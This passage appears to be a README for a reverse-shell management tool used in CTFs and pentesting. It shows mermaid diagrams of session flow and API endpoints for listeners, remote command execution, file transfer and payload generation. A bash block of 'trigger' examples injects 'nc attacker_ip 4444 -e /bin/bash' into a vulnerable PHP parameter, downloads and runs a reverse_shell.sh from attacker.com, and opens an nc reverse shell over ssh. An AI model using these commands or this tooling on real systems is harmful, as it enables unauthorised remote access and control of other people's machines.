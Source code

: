 ```mermaid
        TargetSystem->>TargetSystem: Process payload
        TargetSystem->>Manager: Establish reverse connection
        PayloadThread-->>-Manager: Command completed
    end
    
    Note over Manager: Session state updated<br/>when connection received
```

### Trigger Command Examples

```bash
# Web-based trigger (common in CTFs and pentesting)
curl -X POST http://target.com/vulnerable.php \
  -d "command=nc attacker_ip 4444 -e /bin/bash"

# File-based trigger
wget http://attacker.com/reverse_shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh

# Direct command execution
ssh user@target.com "nc attacker_ip 4444 -e /bin/bash"
```

## 🔧 API Endpoints

The REST API provides comprehensive access to all reverse shell functionality:

```mermaid
flowchart TD
    subgraph "Session Management"
        START["POST /api/reverse-shell/listener/start<br/>Create & Start Session"]
        STOP["POST /api/reverse-shell/{id}/stop<br/>Terminate Session"]
        STATUS["GET /api/reverse-shell/{id}/status<br/>Get Session Info"]
        LIST["GET /api/reverse-shell/sessions<br/>List All Sessions"]
    end
    
    subgraph "Command Execution"
        CMD["POST /api/reverse-shell/{id}/command<br/>Execute Shell Command"]
        SEND_PAYLOAD["POST /api/reverse-shell/{id}/send-payload<br/>🆕 Send Payload"]
    end
    
    subgraph "File Operations"
        UPLOAD["POST /api/reverse-shell/{id}/upload-content<br/>Upload Content"]
        DOWNLOAD["POST /api/reverse-shell/{id}/download-content<br/>Download Content"]
    end
    
    subgraph "Payload Generation"
        PAYLOAD["POST /api/reverse-shell/generate-payload<br/>Generate Payloads"]
    end
    
    START --> STATUS
    STATUS --> CMD
    CMD --> UPLOAD
    CMD --> DOWNLOAD
    STATUS --> TRIGGER
    TRIGGER --> STATUS
    STATUS --> STOP
    LIST --> STATUS
    
    style TRIGGER fill:#e8f5e8
    style START fill:#fff3e0
    style CMD fill:#f3e5f5
```
